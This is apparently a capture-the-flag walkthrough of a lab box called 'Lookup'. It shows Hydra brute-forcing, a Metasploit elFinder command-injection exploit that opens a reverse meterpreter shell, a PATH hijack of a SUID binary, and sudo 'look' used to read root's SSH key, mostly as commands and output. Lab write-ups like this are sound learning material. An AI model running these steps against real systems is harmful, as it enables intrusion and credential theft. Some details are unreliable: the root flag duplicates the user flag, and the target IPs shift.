


# LOOKUP_THM-CTF

namap scan

```bash
──(root㉿kali)-[~]
└─# nmap -p- -T4 -A 10.49.155.8
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-31 10:01 IST
Nmap scan report for 10.49.155.8
Host is up (0.022s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 84:45:13:0b:09:67:dd:bc:5e:52:b9:dc:a1:07:d4:a4 (RSA)
|   256 b8:03:64:07:5c:9c:82:b3:b9:7f:3c:1f:d2:52:6b:0c (ECDSA)
|_  256 1c:2e:69:15:e8:4a:51:74:72:f7:71:31:99:d1:cf:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://lookup.thm
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 3 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 110/tcp)
HOP RTT      ADDRESS
1   17.37 ms 192.168.128.1
2   ...
3   15.05 ms 10.49.155.8

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.51 seconds

```

**Observations:**

- Open ports:
    - SSH on port 22
    - HTTP on port 80

Fix hostname resolution




we got the login page here now we will attempt the password 


this is what we got when we are attempting user = admin ; password = password

**Brute Forcing Login Using Hydra**

finding password :

```bash
hydra -L /root/wordlists/usernames/name.txt -p password123 lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:F=try again" 
```

output :

```bash
[80][http-post-form] host: lookup.thm   login: jose   password: password123
```

We confirm that the valid credentials are `jose:password123`

After logging in, we are redirected to another domain. We update the `/etc/hosts` file again:

```bash
echo "< ip > files.lookup.thm" | sudo tee -a /etc/hosts
```

Now we are into this page


Opening the suspicious file credential.txt


now we will attempt ssh login to

```bash
 ssh think@10.49.164.60
```

but attempt fails

```bash
think@10.49.164.60's password:
Permission denied, please try again.
```

Here's the continuation of your penetration test scenario, focusing on exploiting the `elFinder` vulnerability, gaining access to the system, and escalating privileges.



Now will fine and exploit elFinder 

```bash
┌──(root㉿kali)-[~]
└─# msfconsole -q
msf6 > search elfinder 2.1.47

Matching Modules
================

   #  Name                                                               Disclosure Date  Rank       Check  Description
   -  ----                                                               ---------------  ----       -----  -----------
   0  exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection  2019-02-26       excellent  Yes    elFinder PHP Connector exiftran Command Injection

Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection

msf6 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > showoptions
[-] Unknown command: showoptions. Run the help command for more details.
msf6 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > show options

Module options (exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]. Supported proxies: socks5, socks5h, sapni, http, socks4
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /elFinder/       yes       The base path to elFinder
   VHOST                       no        HTTP server virtual host

Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.29.219   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:                                                                                                                                                                                                                           
                                                                                                                                                                                                                                          
   Id  Name                                                                                                                                                                                                                               
   --  ----                                                                                                                                                                                                                               
   0   Auto                                                                                                                                                                                                                               
                                                                                                                                                                                                                                          
                                                                                                                                                                                                                                          

View the full module info with the info, or info -d command.

```

Now we will set rhost and Lhost

```bash
set LHOST tun0
set RHOST files.lookup.thm
```

run the exploit :

```bash
msf6 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > run
[*] Started reverse TCP handler on 192.168.208.245:4444 
[*] Uploading payload 'ya9RSG.jpg;echo 6370202e2e2f66696c65732f7961395253472e6a70672a6563686f2a202e53454c4d625a4c2e706870 |xxd -r -p |sh& #.jpg' (1959 bytes)
[*] Triggering vulnerability via image rotation ...
[*] Executing payload (/elFinder/php/.SELMbZL.php) ...
[*] Sending stage (40004 bytes) to 10.49.164.60
[+] Deleted .SELMbZL.php
[*] Meterpreter session 1 opened (192.168.208.245:4444 -> 10.49.164.60:49838) at 2026-01-01 12:58:03 +0530
[*] No reply
[*] Removing uploaded file ...
[+] Deleted uploaded file

meterpreter > 

```

now lets get a shell 

```bash
shell
```

We now confirm that we’re operating as the `www-data` user:

```bash
whoami
www-data
```

we can esclate privileges by spwaning the tty bash shell 

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

confirm that we have `www-data` shell access:

```bash
www-data@ip-10-49-164-60:/var/www/files.lookup.thm/public_html/elFinder/php$ 

```

Next, let’s check the `/etc/passwd` file for potential user accounts:

```bash
cat /etc/passwd
```

we got the think user here :

```bash
think:x:1000:1000:,,,:/home/think:/bin/bash
```

Now, let's look for potential privilege escalation opportunities. First, let’s check for any files with the SUID bit set:

```bash
find / -perm /4000 2>/dev/null
```

We find a suspicious file: `/usr/sbin/pwm`. Let’s try to execute it:

```bash
/usr/sbin/pwm
```


The command checks the ID and attempts to grab a file at `/home/www-data/.passwords`. We can manipulate the `PATH` to exploit this further.

Let’s export the path to `/tmp`, which is world-readable:

```bash
export PATH=/tmp:$PATH
```

Create a file in `/tmp` that impersonates the `think` user by modifying the `id` command:

```bash
echo -e '#!/bin/bash\n echo "uid=33(think) gid=33(think) groups=33(think)"' > /tmp/id
chmod +x /tmp/id
```

 re-run the `pwm` command:

```bash
www-data@ip-10-49-164-60:/var/www/files.lookup.thm/public_html/elFinder/php$ chmod +x /tmp/id
<okup.thm/public_html/elFinder/php$ chmod +x /tmp/id                         
www-data@ip-10-49-164-60:/var/www/files.lookup.thm/public_html/elFinder/php$ /usr/sbin/pwm
<.lookup.thm/public_html/elFinder/php$ /usr/sbin/pwm                         
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: think
jose1006
jose1004
jose1002
jose1001teles
jose100190
jose10001
jose10.asd
jose10+
jose0_07
jose0990
jose0986$
jose098130443
jose0981
jose0924
jose0923
jose0921
thepassword
jose(1993)
jose'sbabygurl
jose&vane
jose&takie
jose&samantha
jose&pam
jose&jlo
jose&jessica
jose&jessi
josemario.AKA(think)
jose.medina.
jose.mar
jose.luis.24.oct
jose.line
jose.leonardo100
jose.leas.30
jose.ivan
jose.i22
jose.hm
jose.hater
jose.fa
jose.f
jose.dont
jose.d
jose.com}
jose.com
jose.chepe_06
jose.a91
jose.a
jose.96.
jose.9298
jose.2856171
www-data@ip-10-49-164-60:/var/www/files.lookup.thm/public_html/elFinder/php$ 

```

This successfully changes the user to `think` and gives us access to their password file. After gathering potential passwords, we can perform an SSH brute-force attack using Hydra:

```bash
hydra -l think -P wordlist.txt ssh://lookup.thm
```

the attack is successful output

```bash
[22][ssh] host: lookup.thm   login: think   password: josemario.AKA(think)
think:josemario.AKA(think)
```

we log in as `think`:

`ssh think@lookup.thm`


we go the user flag:

```bash
think@ip-10-49-164-60:~$ cat user.txt 
38375fb4dd8baa2b2039ac03d92b820e
```

**Privilege Escalation**

The user `think` has the following sudo privileges:

```bash
think@ip-10-49-164-60:~$ sudo -l
[sudo] password for think: 
Matching Defaults entries for think on ip-10-49-164-60:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User think may run the following commands on ip-10-49-164-60:
    (ALL) /usr/bin/look

```

Now, we use GTFOBins to escalate privileges using the `look` command:

```bash
LFILE=/root/.ssh/id_rsa
sudo look '' "$LFILE"
```

This grants us root access. We now have full control over the system.

With this private key, we now have access to the root account. Let’s use this key to login as root.

```bash
ssh -i /tmp/id_rsa root@lookup.thm
```

**Root Flag**

Now that we have root access, we can navigate to the root user’s home directory to retrieve the root flag.

```bash
root@lookup:~# cat /root/flag.txt
38375fb4dd8baa2b2039ac03d92b820e
```